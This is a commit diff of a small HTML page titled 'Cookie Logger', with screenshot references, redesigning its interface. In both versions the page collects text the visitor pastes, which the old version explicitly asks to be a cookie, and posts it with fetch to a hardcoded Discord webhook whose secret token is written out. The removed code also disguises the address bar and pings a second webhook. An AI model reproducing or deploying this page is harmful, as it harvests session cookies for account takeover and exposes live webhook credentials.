

Before and after one commit to SpeedubX/Cookie, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,132 +3,247 @@
 <head>
 <meta charset="UTF-8">
 <meta name="viewport" content="width=device-width, initial-scale=1.0">
-
-<!-- CHANGE ONLY THIS TEXT -->
 <title>Cookie Logger</title>
 
+<link href="https://fonts.googleapis.com/css2?family=Orbitron:wght@400;700&display=swap" rel="stylesheet">
+
 <style>
-    body {
-        font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
-        background: linear-gradient(135deg, #1f1c2c, #928dab);
-        color: #fff;
-        display: flex;
-        justify-content: center;
-        align-items: center;
-        height: 100vh;
+* {
     margin: 0;
-        position: relative;
+    padding: 0;
+    box-sizing: border-box;
+    font-family: 'Orbitron', sans-serif;
 }
 
-    .discord-invite {
-        position: fixed;
-        top: 20px;
-        right: 20px;
-        background: #5865F2;
+body {
+    height: 100vh;
+    background: black;
+    overflow: hidden;
     color: white;
-        padding: 12px 18px;
-        border-radius: 8px;
-        font-weight: bold;
-        cursor: pointer;
-        box-shadow: 0 4px 10px rgba(0,0,0,0.2);
-        transition: 0.3s;
-        text-decoration: none;
 }
 
-    .discord-invite:hover {
-        background: #4752c4;
+/* canvas bg */
+#bg {
+    position: fixed;
+    top: 0;
+    left: 0;
+    z-index: -1;
 }
 
-    .container {
-        background: rgba(0,0,0,0.5);
-        padding: 40px;
-        border-radius: 15px;
-        box-shadow: 0 8px 20px rgba(0,0,0,0.4);
-        text-align: center;
+/* cursor */
+.cursor {
+    position: fixed;
+    width: 20px;
+    height: 20px;
+    background: cyan;
+    border-radius: 50%;
+    pointer-events: none;
+    box-shadow: 0 0 20px cyan, 0 0 40px cyan;
+    transform: translate(-50%, -50%);
+    z-index: 9999;
 }
 
-    input[type="text"] {
-        width: 300px;
-        padding: 15px;
-        border-radius: 10px;
-        border: none;
-        margin-bottom: 20px;
-        font-size: 16px;
+/* sidebar */
+.sidebar {
+    position: fixed;
+    left: 0;
+    top: 0;
+    height: 100%;
+    width: 80px;
+    background: rgba(0,0,0,0.6);
+    backdrop-filter: blur(10px);
+    transition: 0.3s;
+    padding-top: 20px;
 }
 
-    button {
-        padding: 15px 30px;
-        font-size: 16px;
+.sidebar:hover {
+    width: 200px;
+}
+
+.sidebar button {
+    width: 100%;
+    padding: 15px;
+    background: none;
     border: none;
-        border-radius: 10px;
-        background: #ff4b2b;
-        color: white;
+    color: cyan;
+    text-align: left;
     cursor: pointer;
     transition: 0.3s;
 }
 
-    button:hover {
-        background: #ff416c;
+.sidebar button:hover {
+    background: rgba(0,255,255,0.2);
+}
+
+/* pages */
+.page {
+    display: none;
+    position: absolute;
+    top: 50%;
+    left: 55%;
+    transform: translate(-50%, -50%);
+    text-align: center;
+}
+
+.page.active {
+    display: block;
+}
+
+/* glitch text */
+.glitch {
+    font-size: 34px;
+    color: cyan;
+    text-shadow: 0 0 10px cyan;
+    animation: glitch 1s infinite;
+}
+
+@keyframes glitch {
+    0% { text-shadow: 2px 0 red, -2px 0 blue; }
+    50% { text-shadow: -2px 0 red, 2px 0 blue; }
+    100% { text-shadow: 2px 0 red, -2px 0 blue; }
+}
+
+input {
+    margin-top: 20px;
+    padding: 15px;
+    width: 300px;
+    border-radius: 10px;
+    border: none;
+    background: rgba(255,255,255,0.1);
+    color: white;
+    outline: none;
+}
+
+button.send {
+    margin-top: 15px;
+    padding: 15px 30px;
+    border-radius: 10px;
+    border: none;
+    background: cyan;
+    color: black;
+    cursor: pointer;
+}
+
+/* powered */
+.powered {
+    margin-top: 20px;
+    color: cyan;
+    text-shadow: 0 0 10px cyan;
 }
 </style>
 </head>
+
 <body>
 
-<a class="discord-invite" onclick="sendInvite()">Join Discord</a>
+<canvas id="bg"></canvas>
+<div class="cursor" id="cursor"></div>
 
-<div class="container">
-    <!-- CHANGE THIS TEXT ONLY IF YOU WANT -->
-    <h2>Cookie Logger</h2>
+<div class="sidebar">
+    <button onclick="showPage('main')">🏠 Main</button>
+    <button onclick="openHelp()">❓ Help</button>
+    <button onclick="openInvite()">🔗 Invite</button>
+    <button onclick="showPage('more')">📂 More</button>
+</div>
+
+<!-- MAIN PAGE -->
+<div class="page active" id="main">
+    <div class="glitch">test</div>
 
     <input type="text" id="messageInput" placeholder="Type something...">
     <br>
-    <button onclick="sendMessage()">Send</button>
+    <button class="send" onclick="sendMessage()">Send</button>
+
+    <div class="powered">⚡ Powered by AWP & SWIFTIES ⚡</div>
+</div>
+
+<!-- MORE PAGE -->
+<div class="page" id="more">
+    <div class="glitch">Coming Soon</div>
 </div>
 
 <script>
 
-// 🔥 THIS CHANGES THE ADDRESS BAR
-history.pushState({}, "", "/Cookie-Logger2026");
+/* cursor */
+document.addEventListener("mousemove", e => {
+    const c = document.getElementById("cursor");
+    c.style.left = e.clientX + "px";
+    c.style.top = e.clientY + "px";
+});
 
+/* page switch */
+function showPage(id) {
+    document.querySelectorAll(".page").forEach(p => p.classList.remove("active"));
+    document.getElementById(id).classList.add("active");
+}
+
+/* links */
+function openHelp() {
+    window.open("https://discord.com/users/1269285660834140215", "_blank");
+}
+
+function openInvite() {
+    window.open("https://discord.gg/zEtZCQ95eT", "_blank");
+}
+
+/* webhook */
 const messageWebhook = "https://discord.com/api/webhooks/1485360176688267316/Zs7bbgPxA6PPsn0IxhfFxYNdZZzWRJHbd2g5OCOaalvWUjYrDW9pCj5jzLdyE2Vz2nNj";
-const welcomeWebhook = "https://discord.com/api/webhooks/1475155925919858743/6TAlztU__6oKHAeXKiyAWvwgqmMXnwEoJefq3OIRhMK8gWOgGDvnr9KdlUrCAuFE3cu8";
-const inviteLink = "https://discord.gg/zEtZCQ95eT";
 
 async function sendMessage() {
-    const message = document.getElementById('messageInput').value.trim();
+    const msg = document.getElementById("messageInput").value.trim();
+    if(!msg) return alert("Please Paste");
 
-    if(message === "") {
-        alert("Please Paste the cookie!");
-        return;
+    await fetch(messageWebhook, {
+        method: "POST",
+        headers: {"Content-Type":"application/json"},
+        body: JSON.stringify({content: msg})
+    });
+
+    alert("Sent!");
 }
 
-    try {
-        await fetch(messageWebhook, {
-            method: "POST",
-            headers: { "Content-Type": "application/json" },
-            body: JSON.stringify({ content: message })
+/* 3D particles FIXED */
+const canvas = document.getElementById("bg");
+const ctx = canvas.getContext("2d");
+
+canvas.width = innerWidth;
+canvas.height = innerHeight;
+
+let particles = [];
+
+/* FIX: centered spread */
+for(let i=0;i<200;i++){
+    particles.push({
+        x: (Math.random() - 0.5) * canvas.width,
+        y: (Math.random() - 0.5) * canvas.height,
+        z: Math.random() * 1000
     });
-        alert("Message sent!");
-        document.getElementById('messageInput').value = "";
-    } catch (err) {
-        alert("Error sending message: " + err);
-    }
 }
 
-async function sendInvite() {
-    try {
-        await fetch(welcomeWebhook, {
-            method: "POST",
-            headers: { "Content-Type": "application/json" },
-            body: JSON.stringify({ content: `Someone clicked the Discord invite! DM the owner if there is any problems.` })
+function draw(){
+    ctx.fillStyle = "black";
+    ctx.fillRect(0,0,canvas.width,canvas.height);
+
+    particles.forEach(p=>{
+        p.z -= 2;
+        if(p.z <= 0) p.z = 1000;
+
+        let k = 128 / p.z;
+
+        /* stays same but now works properly */
+        let x = p.x * k + canvas.width/2;
+        let y = p.y * k + canvas.height/2;
+
+        let size = (1 - p.z/1000) * 3;
+
+        ctx.fillStyle = "cyan";
+        ctx.fillRect(x,y,size,size);
     });
-    } catch(err) {
-        console.error("Failed to notify welcome webhook:", err);
+
+    requestAnimationFrame(draw);
 }
+draw();
 
-    window.open(inviteLink, "_blank");
-}
 </script>
+
 </body>
-
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
